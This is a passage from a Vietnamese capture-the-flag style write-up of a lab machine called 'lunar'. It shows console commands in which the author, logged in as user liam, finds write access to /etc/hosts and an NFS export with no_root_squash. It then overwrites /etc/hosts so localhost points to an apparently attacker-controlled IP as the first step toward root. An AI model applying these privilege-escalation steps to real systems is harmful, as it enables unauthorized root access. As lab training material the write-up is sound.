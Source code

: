 Sử dụng file này để SSH vào `liam` xem sao?

![](https://i.imgur.com/3y5Cehf.png)

Cuối cùng cũng thoát khỏi sự tù túng của revshells :)))) 

Check quyền của `liam`:

```console 
liam@lunar:~$ id
uid=1000(liam) gid=1000(liam) groups=1000(liam),1001(network)
```

Có group `network`, vậy hãy xem group này có tác động đến file nào trong hệ thống?

```console 
liam@lunar:~$ find / -group network 2>/dev/null
/etc/hosts
```

Nội dung file `/etc/hosts`:

```console 
liam@lunar:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.0.1 lunar
```

Đến đây thì bí rồi, sử dụng `Linpeas` hay `LSE` cũng không có gì hữu dụng cả :-1: 

Sau khi nghiền ngẫm một hồi, tôi nhận ra mình đã quên một thứ, `nfs` tại port `2049`, tại [đây](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe) có một bài viết liên quan đến `nfs`.

Trước tiên, phải kiểm tra `/etc/exports`:

```console 
liam@lunar:~$ cat /etc/exports 
# /etc/exports: the access control list for filesystems which may be exported
#		to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/srv/share localhost(rw,sync,no_root_squash)
```

Ta thấy có `no_root_squash` tại `/srv/share`, ta có thể leo root thông qua nó, nhưng trước tiên, phải thiết lập lại `/etc/hosts`:

```console 
liam@lunar:~$ cat >/etc/hosts <<EOL
> 192.168.49.62 localhost
> 127.0.0.1 lunar
> EOL
```
